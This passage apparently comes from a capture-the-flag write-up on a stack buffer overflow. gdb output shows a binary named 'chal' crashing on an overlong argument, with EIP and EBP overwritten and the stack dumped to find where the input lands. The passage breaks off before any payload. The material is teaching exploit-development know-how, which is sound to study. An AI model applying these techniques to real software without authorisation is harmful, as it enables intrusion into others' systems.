 ```text
Type "apropos word" to search for commands related to "word"...
Reading symbols from /usr/local/bin/chal...(no debugging symbols found)...done.
(gdb) r aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Starting program: /usr/local/bin/chal aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Program received signal SIGSEGV, Segmentation fault.
0x61616161 in ?? ()
```

Checking the registers we confirm that EIP and EBP have been overwritten:

```text
(gdb) info registers
eax            0x0      0
ecx            0xbffff8a0       -1073743712
edx            0xbffff566       -1073744538
ebx            0xb7fce000       -1208164352
esp            0xbffff500       0xbffff500
ebp            0x61616161       0x61616161
esi            0x0      0
edi            0x0      0
eip            0x61616161       0x61616161
eflags         0x10202  [ IF RF ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```

We know the EIP (Extended Instruction Pointer) contains the address of the next instruction to be executed, which now points to our input, in the above instance that's our aaaa.

Now we can look at the stack to see where that address is:

```text
(gdb) x/100x $esp
0xbffff500:     0x61616161      0x61616161      0x61616161      0x61616161
0xbffff510:     0x61616161      0x61616161      0x61616161      0x61616161
0xbffff520:     0x61616161      0x61616161      0x61616161      0x61616161
0xbffff530:     0x61616161      0x61616161      0x61616161      0x61616161
0xbffff540:     0x61616161      0x61616161      0x61616161      0x61616161
0xbffff550:     0x61616161      0x61616161      0x61616161      0x61616161
0xbffff560:     0x61616161      0x61616161      0x00000000      0x08048341
0xbffff570:     0x0804841d      0x00000002      0xbffff594      0x08048450
0xbffff580:     0x080484c0      0xb7fed160      0xbffff58c      0x0000001c
0xbffff590:     0x00000002      0xbffff6b8      0xbffff6cc      0x00000000
0xbffff5a0:     0xbffff8a3      0xbffff8b4      0xbffff8c4      0xbffff8d8
0xbffff5b0:     0xbffff8fe      0xbffff911      0xbffff923      0xbffffe44
0xbffff5c0:     0xbffffe50      0xbffffeae      0xbffffeca      0xbffffed9
0xbffff5d0:     0xbffffef0      0xbfffff01      0xbfffff0a      0xbfffff22
0xbffff5e0:     0xbfffff2a      0xbfffff3f      0xbfffff87      0xbfffffa7
0xbffff5f0:     0xbfffffc6      0x00000000      0x00000020      0xb7fdccf0
0xbffff600:     0x00000021      0xb7fdc000      0x00000010      0x078bfbff
0xbffff610:     0x00000006      0x00001000      0x00000011      0x00000064
0xbffff620:     0x00000003      0x08048034      0x00000004      0x00000020
```